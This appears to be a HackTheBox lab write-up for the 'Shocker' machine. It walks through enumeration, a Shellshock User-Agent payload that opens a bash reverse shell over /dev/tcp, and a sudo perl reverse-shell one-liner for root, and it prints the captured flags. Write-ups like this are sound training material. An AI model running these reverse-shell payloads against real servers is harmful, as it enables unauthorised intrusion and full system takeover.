 ```yaml
---
layout: post
title: HackTheBox Shocker
date: 2017-09-30
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers. ([Source](https://www.hackthebox.com/machines/shocker))

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.0046s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/19%OT=80%CT=1%CU=35637%PV=Y%DS=2%DC=T%G=Y%TM=6210DBF
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT     ADDRESS
1   3.87 ms 10.10.14.1
2   3.95 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.89 seconds
```

Here is the website.

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Shocker/website.png?raw=true)

`dirsearch` revealed some hidden directories.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# dirsearch -u 10.10.10.56 -w /usr/share/dirb/wordlists/common.txt   
...
[20:21:28] Starting: 
[20:21:30] 403 -  294B  - /cgi-bin/
[20:21:34] 200 -  137B  - /index.html
[20:21:40] 403 -  299B  - /server-status

Task Completed
```

Let’s check out the `/cgi-bin/` directory.

>   A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website

Let’s run `dirsearch` again on the `/cgi-bin/` directory with some common extensions like `sh, cgi, bash`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# dirsearch -u http://10.10.10.56/cgi-bin -w /usr/share/dirb/wordlists/common.txt -f -e sh,cgi,bash
...
[20:28:10] Starting: 
[20:29:19] 200 -  119B  - /cgi-bin/user.sh
...
```

There is a very interesting `user.sh` file.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# curl 10.10.10.56/cgi-bin/user.sh                                
Content-Type: text/plain

Just an uptime test script

 07:31:03 up 30 min,  0 users,  load average: 0.00, 0.02, 0.00
```

# Exploitation

Googling for `cgi bin exploits` resulted in a vulnerability called `ShellShock`.

According to this [GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) repository, we can check for the exploit by adjusting the `User Agent` to have some bash command.

![burp](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Shocker/burp.png?raw=true)

Let’s send a reverse shell bash script to gain access to `shelly`.

```bash
User Agent: () { :; }; echo; /bin/bash -c "exec bash -i &>/dev/tcp/<ip>/<port> <&1"
```

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# nc -nlvp 1337              
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.56] 44040
bash: no job control in this shell

shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
shelly@Shocker:/home/shelly$ cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

# Privilege Escalation

Let’s check what `sudo` privileges can `shelly` run.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

It seems like she can run `perl`. We can run a reverse shell command with `perl`.

```perl
sudo /usr/bin/perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 6969            
listening on [any] 6969 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.56] 41834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# cat root.txt
52c2715605d70c7619030560dc1ca467
```
